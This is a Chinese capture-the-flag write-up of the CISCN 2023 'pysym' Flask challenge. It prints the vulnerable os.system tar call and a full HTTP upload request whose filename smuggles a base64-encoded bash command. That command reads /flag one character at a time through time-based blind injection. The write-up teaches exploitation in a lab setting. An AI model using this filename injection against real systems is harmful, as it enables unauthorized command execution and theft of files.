

## 基本信息

* 题目名称： [CISCN 2023 华北]pysym
* 题目链接： https://www.nssctf.cn/problem/4098
* 考点清单： 无回显RCE，代码审计，Flask，HTTP爆破，带编码的爆破，模糊测试
* 工具清单： Yakit
* payloads： 弱比较绕过，转义符绕过

## 一、看到什么

**题目关键信息列表**：

1. `源代码`: 该题的源码以附件形式给出；
1. `上传文件表单`: 一个选择文件按钮，一个上传文件按钮。


## 二、想到什么解题思路

1. `源码审计`: 对源码审计发现只有两个有用接口，能够访问上传的源码文件，但是只能下载。

1. `命令执行`：源码危险操作部分只有`os.system`，似乎能够进行命令注入。


## 三、尝试过程和结果记录

1. 定位到危险代码

   ```
   os.system('tar --absolute-names  -xvf {} -C {}'.format(savepath, directory))
   ```

   传入两个参数，其中`savepath`能够通过`file.filename`被控制，考虑在文件名构造命令注入。

2. 构造命令注入：

   由于考虑到可能没有vps，这里就不考虑`反弹shell`了，当作无回显不出网题目做，用sleep命令测试：

   

   响应时间少于5s，考虑可能是有特殊字符，尝试base64编码：

   

   成功延时5s返回，所以思路可行。

3. 爆破flag：

   由于该命令注入不回显不出网，考虑时间盲注，考虑逐字符猜测flag，设置fuzz规则如下：

   ```http
   POST / HTTP/1.1
   Host: node5.anna.nssctf.cn:25753
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRCKUucBuQYBh9nVU
   Content-Length: 179
   
   ------WebKitFormBoundaryRCKUucBuQYBh9nVU
   Content-Disposition: form-data; name="file"; filename="1.txt || echo {{base64enc(bash -i -c '[ "$(head -c 1 /flag)" == "{{rangechar(20,7E)}}" ] && sleep 5')}} | base64 -d | bash ||"
   Content-Type: text/plain
   
   1
   ------WebKitFormBoundaryRCKUucBuQYBh9nVU--
   ```

   命令逻辑为读取`/flag`的第一个字符在可见ASCII字符范围进行爆破。

   测试flag，已知flag格式为`NSSCTF{XXXXXXXX}`，所以预期第一个字符为‘N’：

   

   可以看到只有设置为N才延迟5秒返回，说明猜测正确。

   接下来可以逐字符爆破：

   

   把延迟超过5000ms的响应包按照发包顺序组装payload即可获得最终flag

   ## 四、总结与反思
   
   1. 如果拿到源码文件后，定位到危险函数，然后倒推用户控制的输入，可以快速定位漏洞点；
   2. 要善于利用编码来绕过一些限制。
   
